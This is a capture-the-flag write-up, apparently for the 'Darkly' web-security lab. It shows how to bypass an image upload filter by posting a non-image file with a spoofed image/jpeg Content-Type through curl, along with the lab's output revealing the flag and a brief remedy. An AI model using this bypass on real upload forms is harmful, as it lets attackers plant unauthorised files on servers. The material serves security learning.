


When we inspect the image upload page, we see the following upload form:  

  

By trying to upload different type of files, it seems like it only accepts jpeg files.  

Input file name : "uploaded"
Input Submit button: name: "Upload", value: "Upload"  
Header Content Type: `multipart/form-data`


Posting the data directly to the page which contains the code for handling the file upload is a method for completely bypassing a client side filter. -> Use of CURL  
Syntax: `curl -X POST -F “submit:<value>” -F “<file-parameter>:@<path-to-file>” <site>`.  
To use this method you would first aim to intercept a successful upload (using Burpsuite or the browser console) to see the parameters being used in the upload, which can then be slotted into the above command.

Using the information from the browser command, we can try this:  
`curl -X POST -H "Content-Type: multipart/form-data" -F "Upload=Upload" -F "uploaded=@/mnt/nfs/homes/cboutier/Desktop/Darkly/9_Upload_exploit/Ressources/test.c;type=image/jpeg" "http://192.168.56.103/?page=upload" | grep flag`  
<!-- 
curl -X POST -H "Content-Type: multipart/form-data" -F "Submit_btn_name = Submit_btn_value" -F "Input_file_name =@ file_to_upload;type=image/jpeg" "page_address" | grep flag
 -->

We get the following result:

```
_exploit/Ressources/test.c;type=image/jpeg" "http://192.168.56.103/?page=upload" | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3036    0  2747  100   289    549     57  0:00:05  0:00:04  0:00:01   723
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/></center> </pre><pre>/tmp/test.c succesfully uploaded.</pre>
```

To prevent this, not trust the content-type header blindly, as this can be altered by a third-party. Examine the file extension directly to block file types not accepted.


MAN CURL:  
-X, --request <method>
              (HTTP) Specifies a custom request method to use when communicating with the HTTP server. The specified  request  method
              will  be used instead of the method otherwise used (which defaults to GET).

-F, --form <name=content>
              (HTTP  SMTP  IMAP) For HTTP protocol family, this lets curl emu‐
              late a filled-in form in which a user  has  pressed  the  submit
              button.  This  causes  curl  to POST data using the Content-Type
              multipart/form-data according to RFC 2388.

              For SMTP and IMAP protocols, this is the means to compose a mul‐
              tipart mail message to transmit.

              This  enables  uploading of binary files etc. To force the 'con‐
              tent' part to be a file, prefix the file name with an @ sign. 
			  @ makes  a  file  get attached in the post as a file upload.

              Example: send an image to an HTTP server, where 'profile' is the
              name of the form-field to which the file  portrait.jpg  will  be
              the input:

               curl -F profile=@portrait.jpg https://example.com/upload.cgi

              Example:  send your name and shoe size in two text fields to the
              server:

               curl -F name=John -F shoesize=11 https://example.com/

              You can also  tell  curl  what  Content-Type  to  use  by  using
              'type=', in a manner similar to:

               curl -F "web=@index.html;type=text/html" example.com


https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html  
https://infosecwriteups.com/upload-vulnerabilities-tryhackme-writeup-f6fba1dad902  


  
